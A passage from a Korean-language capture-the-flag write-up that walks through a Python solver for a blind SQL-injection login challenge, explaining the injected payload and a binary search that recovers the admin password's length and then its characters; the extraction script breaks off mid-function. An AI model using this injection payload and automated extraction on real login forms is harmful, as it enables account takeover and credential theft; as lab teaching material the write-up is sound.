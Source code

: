 과정을 한번 살펴보면, 먼저 `_find_password_length`에서 `query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})"`를 통해 쿼리문을 생성한다.

참고로, `f-string`으로 문자열을 선언할 때 `{user}` 처럼 `{}`을 한번만 감싸주면 선언과 동시에 `user` 값이 존재하여 대입이 이루어져야 하고, `{{val}}` 처럼 `{{}}`로 두번 감싸주면 중괄호 그대로 `{val}`이 문자열로 저장된다. (`{}`가 `'`나 `"`와 비슷하다고 생각하면 됨)

`val`을 `{val}`로 출력되도록 하는 이유는, 나중에 이진 탐색 함수에서 `format()` 함수를 통해 `val`의 값을 계속 바꿔줄 것이기 때문이다.

다시 쿼리문에 대해서 설명하면, 해당 쿼리문은 `userpassword`의 길이(`LENGTH`)가 `val`보다 작은 경우 `True`를 리턴하는 쿼리문이다. 예를 들어 `user`가 `"admin"`이고, `val`이 `10`일 때 아래와 같은 쿼리문이 실행된다.

- `((SELECT LENGTH(userpassword) WHERE userid="admin") < 10)`

이 쿼리문을 `_sqli_lt_binsearch` 함수에 인자로 전달하면, 해당 함수에서 `val` 값을 `mid` 값의 변화에 따라 바꿔가며 이진 탐색을 하게 된다.

이진 탐색 함수에서 `_sqli` 함수를 호출하여 `resp = self._login(f"\" or {query}-- ", "hi")`를 통해 앞에서 쓴 쿼리문을 `query`에 입력하여 전달해주면, 전달해준 `query`가 `True`인 경우, `or True`가 되어 로그인이 가능하게 된다.

참고로, `_sqli` 함수는 `-> requests.Response`에서도 볼 수 있듯이, `_login` 함수에서 `requests.post`를 호출하여 리턴되는 값인 `resp`(`requests.Response`)를 리턴한다.\
(`Response` 객체에는 `text`, `cookies`, `header`, `status_code` 등 여러가지 필드가 존재한다.)

따라서, 쿼리문이 `True`를 리턴하는 경우 `"hello ~~"가 출력되기 때문에, `if "hello" in self._sqli(query).text:` 조건으로 해당 함수의 응답문에서 `"hello"` 라는 텍스트가 존재하면 로그인에 성공한 것으로 판단한다.

이 경우 우리가 `< val` 조건을 썼기 때문에, `high = mid`로 업데이트 하여 `val`의 값을 줄여보며 이진 탐색을 진행하여 비밀번호 길이를 찾게 된다.

코드의 실행 결과는 아래와 같고, `app.py` 소스코드에서도 16바이트 랜덤한 문자열을 만든 후 `hex`로 출력했기 때문에, 비밀번호의 길이가 총 32자리(32바이트)임을 알 수 있다.

<img width="730" alt="image" src="https://github.com/user-attachments/assets/4574a70f-c3a3-4319-b485-7c25b0fe89ac">

<br>

#### 3. 비밀번호 찾기

이제 비밀번호의 길이를 찾았기 때문에, 구한 비밀번호의 길이까지 한 글자씩 비밀번호를 알아내는 코드를 작성해보자. `Binary Search`를 활용한 자동화 스크립트 코드는 아래와 같다.

```py
#!/usr/bin/python3
import requests
import sys
from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""

    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host3.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")

    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> requests.Response:
        login_data = {"userid": userid, "userpassword": userpassword}
        resp = requests.post(self._login_url, data=login_data)
        return resp

    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f'" or {query}-- ', "hi")
        return resp

    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low + high) // 2
            if low + 1 >= high:
```
